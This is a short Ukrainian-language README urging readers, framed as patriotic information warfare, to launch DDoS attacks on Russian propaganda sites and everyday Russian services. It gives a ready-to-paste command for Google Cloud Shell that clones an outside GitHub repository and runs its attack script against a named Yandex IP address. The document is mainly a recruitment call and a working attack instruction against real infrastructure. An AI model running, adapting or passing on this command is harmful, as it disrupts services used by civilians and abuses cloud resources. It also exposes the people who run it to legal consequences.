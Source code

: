 
# Справжня інформаційна війна

### Зараз йде війна не тільки реальному але й *інформаційному просторі*. В містах та селах за нас борется ЗСУ та тероборона, а в інтернеті можемо боротися і всі ми, навіть якщо ви далекі від теми програмування.

А все завдяки **DDos атакам** на пропагандистські російські сайти, а також на сайти якими користуються її громадяни в повсякденному житті.

>DDoS attack (*розподілена атака на відмову в обслуговуванні*) - напад на комп'ютерну систему з наміром зробити комп'ютерні ресурси недоступними користувачам, для яких комп'ютерна система була призначена)

Завдяки ним ми можемо *лишити їх можливості черпати фейкову інформацію та поширювати її*. Все що від вас потрібно, перейти [за цим посиланням](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal) (якщо ви хочете провести атаку *з телефону* , то потрібно завантажити google shell), при необхідності створити гугл акаунт,  і ввести ці команди в *строку термінала* . 
***
### Requierments
- Web Browser
- Google Account
- Keyboard
***
### DDOS >> YANDEX
```
git clone https://github.com/dxh-team/CDUW && cd CDUW && ./attack.sh -s 5.255.255.50
```

***
  
Цим саме ви запустите DDos атаку з серверу що буде запущений з вашого пристрою. Ось так, сидячи вдома, ви можете допомогти своїй країні в інформаційному просторі. **Слава Україні!**
> детальніше ознайомитися з даною ситуацією Ви можете за цим посиланням:
> **https://github.com/curated-intel/Ukraine-Cyber-Operations**

